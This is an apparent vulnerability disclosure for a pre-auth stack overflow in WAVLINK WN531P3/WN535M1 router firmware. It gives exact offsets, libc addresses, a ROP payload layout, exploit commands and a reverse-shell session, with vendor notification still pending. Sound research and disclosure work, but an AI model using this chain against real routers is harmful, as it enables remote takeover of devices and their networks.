


# CVE Report: WAVLINK WN531P3/WN535M1 Pre-Auth Stack Buffer Overflow RCE

## 1. Vulnerability Summary

| Field | Value |
|-------|-------|
| **Vendor** | WAVLINK / Shenzhen Ruiyin Technology Co., Ltd. |
| **Product** | WAVLINK WN531P3 (M31P3) / WN535M1 (M35M1) — shared firmware, MT7621 platform |
| **Firmware** | V250922 (`WAVLINK_WN535M1-M35M1_V250922-WO-GD.bin`) |
| **Type** | CWE-121: Stack-based Buffer Overflow |
| **Impact** | Pre-Authentication Remote Code Execution (RCE) |
| **Vector** | Network (HTTP) — single request, no auth, no user interaction |
| **Discoverer** | Independent Security Researcher |

---

## 2. Affected Device



*Figure 1: WAVLINK WN531P3/WN535M1 router web management interface (192.168.2.128:8090). The device runs lighttpd + CGI architecture. The vulnerable CGI endpoint is accessible without authentication.*

---

## 3. Vulnerability Description

The CGI binary `/etc/lighttpd/www/cgi-bin/export_pingortrace.cgi` copies the HTTP Cookie header into a 256-byte stack buffer using `strcpy()` with no length check. **This copy occurs before any authentication**, making it a pre-auth vulnerability.

```c
// Pseudocode (decompiled from MIPS assembly)
char v10[256];                          // stack buffer, 256 bytes
char *cookie = getenv("HTTP_COOKIE");   // attacker-controlled
strcpy(v10, cookie);                    // ← unbounded copy, overflow
// authentication check happens AFTER strcpy — too late
```

Corresponding assembly:

```
0x400b08:  jal    getenv              # getenv("HTTP_COOKIE")
0x400b14:  jal    strcpy              # strcpy(v10, cookie) → overflow
0x400b24:  jal    strstr              # strstr(v10, "token=") ← auth after overflow
```

Overflowing 304 bytes past the buffer overwrites saved registers `$s0`/`$s1`/`$s2`/`$ra`. On function return, execution jumps to an attacker-controlled address.

---

## 4. Stack Layout

```
sp+0x420 │  v10[256] ← overflow start  │
sp+0x550 │  saved $s0                  │  offset +304
sp+0x554 │  saved $s1                  │  offset +308
sp+0x558 │  saved $s2                  │  offset +312
sp+0x55c │  saved $ra (return addr)    │  offset +316
```

---

## 5. Exploitation

### 5.1 Technique

ret2libc ROP. NX enabled (non-executable stack), no PIE, no Stack Canary, no ASLR (embedded Linux default).

The exploit uses a single ROP gadget in musl libc to call `system("/bin/sh")`. **All addresses reside in libc — no stack pointer dependency.** The payload is a fixed 320 bytes and deterministically succeeds for a given firmware version.

### 5.2 ROP Gadget

```asm
# libc + 0x26cb8:
move   $a0, $s0      # a0 = "/bin/sh" (from overwritten s0)
move   $t9, $s2      # t9 = system()  (from overwritten s2)
jalr   $t9           # system("/bin/sh")
```

### 5.3 Key Addresses

| Component | libc offset | Address (QEMU system-mode) |
|-----------|------------|---------------------------|
| `system()` | `+0x5a3f8` | `0x77fad3f8` |
| `"/bin/sh"` | `+0x8fab8` | `0x77fe2ab8` |
| ROP gadget | `+0x26cb8` | `0x77f79cb8` |

libc base `0x77f53000`, fixed (no ASLR on embedded Linux). All addresses are free of bad bytes (0x00/0x0a/0x0d).

### 5.4 Payload Structure

```
Offset      Content                  Purpose
────────────────────────────────────────────────────
0x000-0x025 "token=" + "A"×32       Cookie prefix (38B)
0x026-0x12f "X" × 266               Padding to saved registers
0x130       s0 = 0x77fe2ab8         "/bin/sh" addr → $a0
0x134       s1 = 0x42424242         (unused)
0x138       s2 = 0x77fad3f8         system() addr → $t9
0x13c       ra = 0x77f79cb8         gadget addr
────────────────────────────────────────────────────
Total: 320 bytes, fixed length.
```

### 5.5 Exploitation Flow

```
1. Send HTTP request with 320B payload in Cookie header
2. strcpy overflows → overwrites s0="/bin/sh", s2=system(), ra=gadget
3. Function returns → jr $ra → gadget
4. Gadget: move $a0,$s0; move $t9,$s2; jalr $t9 → system("/bin/sh")
5. Attacker sends commands via POST body (stdin) → arbitrary code execution
```

### 5.6 Prerequisites

| Requirement | Notes |
|-------------|-------|
| libc base address | Extracted from public firmware download; fixed (no ASLR) |
| No stack pointer needed | All addresses in libc, no stack references |
| No authentication | Overflow triggers before any credential check |

---

## 6. Proof of Concept

### 6.1 Tools

- `wavlink_rce_exploit.py` — exploit script (`--binsh` mode)
- `curl_shell_server.py` — attacker-side C2 server (for reverse shell)

### 6.2 Arbitrary Command Execution

```bash
$ python wavlink_rce_exploit.py --target 192.168.2.128 --port 9999 \
    --binsh --cmd "id > /tmp/pwned" --libc-base usermode

[*] Approach A: system("/bin/sh") — no SP required
    payload:  320B (fixed length)
    POST body: id > /tmp/pwned
[*] HTTP 200

# Verify on target:
$ cat /tmp/pwned
uid=1000(iotsec-zone) gid=1000(iotsec-zone) ...
```

### 6.3 Reverse Shell

```bash
# Attacker:
$ python curl_shell_server.py 4444 192.168.2.1

# Exploit (single shot — both commands via stdin):
$ python wavlink_rce_exploit.py --target 192.168.2.128 --port 9999 \
    --binsh --revshell --lhost 192.168.2.1 --lport 4444 --libc-base usermode
```

C2 server output:

```
[*] Shell script served (218B)
[+] REVERSE SHELL CONNECTED from 192.168.2.128!
[>] cmd: id
[<] uid=1000(iotsec-zone) gid=1000(iotsec-zone) ...
[>] cmd: uname -a
[<] Linux iotseczone 6.8.0-124-generic ... x86_64 GNU/Linux
```

### 6.4 Minimal HTTP Request

```http
POST /cgi-bin/export_pingortrace.cgi HTTP/1.0
Host: target
Cookie: token=AAAA...(32B)XXX...(266B)<s0=binsh><s1><s2=system><ra=gadget>
Content-Length: N

<command>
```

A single HTTP request achieves full RCE.

### 6.5 Exploitation Screenshot



*Figure 2: Actual exploitation screenshot. Left window: attacker-side C2 server (`curl_shell_server.py`) receives a reverse shell connection and executes `id`/`whoami`/`ls` commands with output. Right window: exploit script (`wavlink_rce_exploit.py --binsh --revshell`) sends the 320B ROP payload, HTTP 200 confirms CGI crash into `system("/bin/sh")`, stdin-delivered curl commands download and execute the callback script, achieving full pre-auth remote code execution.*

---

## 7. Impact

Pre-auth, no interaction, single-request RCE. An attacker can:

- Execute arbitrary commands as root (full device compromise)
- Intercept all network traffic passing through the router
- Install persistent backdoors and pivot to internal network
- Recruit the device into a botnet

**Only prerequisite**: known libc base address (extracted from publicly available firmware).

---

## 8. Remediation

1. Replace `strcpy` with `strncpy`, enforce buffer size limit
2. Move authentication before input processing
3. Enable Stack Canary (`-fstack-protector-all`)
4. Enable ASLR (`echo 2 > /proc/sys/kernel/randomize_va_space`)
5. Run CGI processes as non-root user

---

## 9. Environment

| Component | Detail |
|-----------|--------|
| Host | Windows 11 Pro |
| VM | Ubuntu (VMware, 192.168.2.128) |
| Emulation | QEMU system-mode + user-mode |
| Firmware extraction | binwalk → SquashFS |
| Disassembler | IDA Pro |
| Exploit tool | Python 3 |

---

## 10. Timeline

| Date | Event |
|------|-------|
| 2026-06-30 | Vulnerability discovered via static analysis, register hijack confirmed |
| 2026-07-01 | Full RCE chain developed, system-mode QEMU verification, reverse shell (root) |
| 2026-07-02 | Deterministic exploit chain (no SP dependency), single-shot reverse shell |
| TBD | Vendor notification (WAVLINK) |
| TBD | CVE ID assignment |

---

## Appendix: Exploit Parameters

```
Binary:       /etc/lighttpd/www/cgi-bin/export_pingortrace.cgi
Arch:         MIPS32 LE, musl libc, NX, no PIE/Canary/ASLR
Buffer:       sp+0x420, 256 bytes
Overflow:     s0=+304, s1=+308, s2=+312, ra=+316

libc offsets:
  system()    +0x5a3f8
  "/bin/sh"   +0x8fab8
  gadget      +0x26cb8  (move $a0,$s0; move $t9,$s2; jalr $t9)

Payload:      320 bytes, fixed, no stack pointer dependency
Bad bytes:    0x00, 0x0a, 0x0d (strcpy/HTTP constraint; current addresses are clean)
```

---

## References

- Firmware: `WAVLINK_WN535M1-M35M1_V250922-WO-GD.bin` (also affects `WN531P3_M31P3_V250922`)
- CWE-121: https://cwe.mitre.org/data/definitions/121.html
- Vendor: https://www.wavlink.com
